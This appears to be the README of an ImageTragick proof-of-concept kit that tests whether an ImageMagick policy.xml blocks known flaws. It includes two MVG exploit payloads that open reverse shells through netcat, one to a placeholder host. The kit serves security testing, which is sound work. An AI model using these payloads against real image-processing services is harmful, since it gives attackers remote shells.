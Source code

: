 # ImageTragick POCs

## RCE_POC
```

push graphic-context
viewbox 0 0 640 480
fill 'url(https://127.0.0.1/someimage.jpg"|nc -e /bin/sh 127.0.0.1 "4544)'
pop grahic-context

```
```
push graphic-context
viewbox 0 0 640 480
image over 0,0 0,0 'https://127.0.0.1/x.php?x=` rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc x.x.x.x 8989 >/tmp/f `'
pop graphic-context
```

## How To Use
```
git clone https://github.com/ImageTragick/PoCs.git
cd PoCs
./test.sh
```

To test a `policy.xml` file place it in the script directory and run `test.sh`.

## Safe Output
```
user@host:~/code/PoCs$ ./test.sh 
testing read
SAFE

testing delete
SAFE

testing http with local port: 38663
SAFE

testing http with nonce: a7DyBeV7
SAFE

testing rce1
SAFE

testing rce2
SAFE

testing MSL
SAFE
```

## Unsafe Output
```
user@host:~/code/PoCs$ ./test.sh 
testing read
UNSAFE

testing delete
UNSAFE

testing http with local port: 44755
UNSAFE

testing http with nonce: a7DvBer2
UNSAFE

testing rce1
UNSAFE

testing rce2
UNSAFE

testing MSL
UNSAFE
```
